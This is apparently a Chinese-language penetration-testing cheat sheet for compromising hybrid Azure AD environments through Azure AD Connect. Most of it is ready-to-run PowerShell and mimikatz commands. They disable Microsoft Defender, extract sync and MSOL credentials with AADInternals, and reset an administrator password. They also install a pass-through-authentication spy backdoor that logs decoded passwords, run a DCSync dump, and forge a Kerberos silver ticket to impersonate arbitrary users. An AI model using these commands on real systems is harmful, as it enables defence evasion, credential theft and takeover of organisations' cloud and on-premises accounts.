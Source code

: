   #### 检查是否安装了 Azure AD Connect：Get-ADSyncConnector

	对于PHS，我们可以提取凭证
	对于PTA，我们可以安装代理
	对于联合身份，我们可以使用 DA 从 ADFS 服务器提取证书
	PS > Set-MpPreference -DisableRealtimeMonitoring $true
	PS > Copy-Item -ToSession $adcnct -Path C:\Tools\AADInternals.0.4.5.zip -Destination C:\Users\Administrator\Documents
	PS > Expand-Archive C:\Users\Administrator\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
	PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
	PS > Get-AADIntSyncCredentials

	获取 SYNC 帐户的令牌并重置本地管理员密码
	PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
	PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
	PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
	PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
	PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose

  #### 检查是否安装了 PTA：Get-Command -Module PassthroughAuthPSModule
	安装 PTA 后门
	PS AADInternals> Install-AADIntPTASpy
	PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords

  #### Azure AD Connect - 密码提取
	AD Sync 中的凭据：C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf
工具 | 需要在目标上执行代码 | DLL 依赖项 | 本地需要 MSSQL | 本地需要python
--- | --- | --- | --- | ---
ADSyncDecrypt | 是 | 是 | 否 | 否
ADSyncGather | 是 | 否 | 否 | 是
ADSyncQuery | 否 (仅限网络 RPC 调用) | 否 | 是 | 是

	git clone https://github.com/fox-it/adconnectdump
  #### Azure AD Connect - MSOL 帐户的密码和 DCSync
  	可以使用 MSOL 帐户执行DCSync攻击
	要求：
	使用 Azure AD Connect 服务破坏服务器
	访问 ADSyncAdmins 或本地管理员组
	使用azuread_decrypt_msol.ps1来恢复 MSOL 帐户的解密密码：
	azuread_decrypt_msol.ps1: AD Connect 同步凭证提取 POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
	azuread_decrypt_msol_v2.ps1：更新了转储 Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c使用的 MSOL 服务帐户（允许 DCSync）的方法
	现在可以使用检索到的 MSOL 帐户凭据来发起 DCSync 攻击。
  #### Azure AD Connect - 银票上的无缝单点登录
  	任何可以编辑 AZUREADSSOACCS$ 帐户属性的人都可以使用 Kerberos 模拟 Azure AD 中的任何用户（如果没有 MFA）
	PHS 和 PTA 都支持无缝 SSO。如果启用无缝 SSO，则会在本地 AD 中创建计算机帐户AZUREADSSOC。
	AZUREADSSOACC 帐户的密码永远不会更改。
	使用https://autologon.microsoftazuread-sso.com/将 Kerberos 票证转换为 Office 365 和 Azure 的 SAML 和 JWT

	AZUREADSSOACC 帐户的 NTLM 密码哈希，例如f9969e088b2c13d93833d0ce436c76dd.
	mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
	我们要模拟的用户的 AAD 登录名，例如elrond@contoso.com. 这通常是他的 userPrincipalName 或来自本地 AD 的邮件属性。
	我们要模拟的用户的 SID，例如S-1-5-21-2121516926-2695913149-3163778339-1234.
	创建 Silver Ticket 并将其注入 Kerberos 缓存：
	mimikatz.exe "kerberos::golden /user:elrond
	/sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
	/domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
	/target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
	启动 Mozilla Firefox
	转到 about:config 并将network.negotiate-auth.trusted-uris preference值设置为https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com
	导航到与我们的 AAD 域集成的任何 Web 应用程序。填写用户名，同时将密码字段留空。